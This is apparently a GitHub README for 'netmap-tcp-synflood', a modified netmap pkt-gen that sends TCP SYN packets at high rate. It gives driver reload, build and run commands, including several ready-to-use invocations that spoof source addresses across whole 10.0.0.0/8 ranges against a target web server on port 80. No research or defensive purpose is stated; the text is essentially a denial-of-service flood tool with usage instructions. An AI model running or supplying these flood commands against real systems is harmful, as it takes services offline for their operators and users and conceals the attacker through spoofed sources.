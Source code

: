 # netmap-tcp-synflood

Its a code from netmap pkt-gen example that can be able to send tcp syn pkts

First, compile netmap (linux): https://github.com/luigirizzo/netmap/tree/master/LINUX

After, reload nic driver (in this case is ixgbe)

	rmmod ixgbe ; modprobe mdio ; modprobe ptp ; modprobe dca ; insmod /root/netmap/LINUX/netmap.ko ; insmod /root/netmap/LINUX/ixgbe/ixgbe.ko

To compile:

	cd netmap-tcp-synflood
	make

After compiled, just run: 

	./pkt-gen -i eth2 -f tx -D <gateway_mac_address> -s <src_ip>:<src_port_range>-<dst_ip>:dst_port_range -d <target>:<target_port>
  
Real example :-)

	./pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1:1024-10.255.255.255:5000 -d 192.168.10.80:80
	
OR

	./pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1-10.255.255.255 -d 192.168.10.80:80

OR

	./pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1 -d 192.168.10.80:80
